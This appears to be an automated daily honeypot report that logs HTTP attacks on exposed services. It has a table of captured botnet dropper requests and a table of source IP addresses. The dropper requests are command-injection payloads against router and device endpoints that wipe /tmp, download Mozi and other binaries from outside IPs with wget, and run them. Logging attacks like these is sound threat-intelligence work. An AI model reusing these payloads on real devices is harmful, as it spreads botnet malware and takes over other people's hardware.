 ```yaml
---
title: "Report: 2025-01-31 "
date: 2025-01-31
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-01-31
interaction report on http service of various Honeypot around the world.
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr     | request                                                                                                                                                                                      |
|---:|:----------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 104.209.212.75  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.90.162.234/wdjkalwww/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                |
|  1 | 209.38.122.180  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.90.162.234/wdjkalwww/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                |
|  2 | 42.236.222.192  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://42.236.222.192:42694/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                |
|  3 | 45.148.10.242   | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F178.162.172.219%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1 |
|  4 | 103.199.180.9   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.199.180.9:34484/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                 |
|  5 | 103.203.72.39   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                        |
|  6 | 119.185.132.233 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                        |
|  7 | 20.51.243.179   | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.90.162.234/wdjkalwww/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   134 | 87.106.151.19   |
|   1 |                    78 | 193.41.206.36   |
|   2 |                    51 | 45.148.10.242   |
|   3 |                    47 | 146.19.24.168   |
|   4 |                    45 | 123.158.40.186  |
|   5 |                    45 | 60.13.146.4     |
|   6 |                    45 | 95.211.231.35   |
|   7 |                    44 | 92.255.57.58    |
|   8 |                    38 | 78.153.140.224  |
|   9 |                    32 | 185.196.220.253 |
|  10 |                    30 | 78.153.140.147  |
|  11 |                    24 | 152.42.197.183  |
|  12 |                    22 | 176.65.137.206  |
|  13 |                    18 | 95.214.55.43    |